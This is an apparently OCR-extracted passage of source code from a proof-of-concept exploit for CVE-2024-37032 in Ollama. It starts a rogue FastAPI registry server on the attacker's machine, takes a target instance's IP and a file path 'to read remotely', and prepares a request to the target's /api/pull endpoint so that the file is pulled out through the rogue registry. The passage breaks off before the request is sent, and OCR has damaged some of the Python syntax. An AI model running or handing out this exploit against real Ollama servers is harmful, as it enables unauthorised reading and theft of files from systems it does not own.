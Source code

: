 ```
        response.headers["Location"]= f"http://{host}/v2/{namespace}/blobs/uploads/{UUID}?_state={STATE}"
return''

return app

```  
```
main.py
```  
```
import threading
from time import sleep
import requests
import uvicorn
import argparse
from server import create_app
import socket

SLEEP_TIME =0.5

def get_machine_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
try:
        s.connect(("8.8.8.8",80))
        ip = s.getsockname()[0]
exceptException:
        ip ="127.0.0.1"
finally:
        s.close()
return ip

def run_server(file, host,namespace):
    app = create_app(file, host,namespace)
    uvicorn.run(app, host='0.0.0.0', port=80)

if __name__ =="__main__":
    parser = argparse.ArgumentParser(description="Run FastAPI rogue server and exploit script (CVE-2024-37032).")
    parser.add_argument("--file", type=str, required=True, help="The file to read remotely.")
    parser.add_argument("--target", type=str, required=True, help="The vulnerable Ollama instance's (target) IP.")
    parser.add_argument("--target-ip", type=str, required=False,default=11434, help="The vulnerablr Ollama instance's (target) port.")
    parser.add_argument("--host", type=str, required=False, help="Current (attacker) machine's IP.")
    parser.add_argument("--namespace", type=str, required=False,default='vsociety/test', help="The string for the rogue registry namespace.")
    args = parser.parse_args()

    host = args.host or get_machine_ip()
    target_url = f"http://{args.target}:{args.target_ip}"
    file = args.file.lstrip("/")

# Start the server in a new thread
    server_thread = threading.Thread(target=run_server, args=(file, host, args.namespace))
    server_thread.daemon =True
    server_thread.start()

# Give the server a moment to start
    sleep(SLEEP_TIME)

    vuln_registry_url = f"{host}/{args.namespace}"
    pull_url = f"{target_url}/api/pull"
```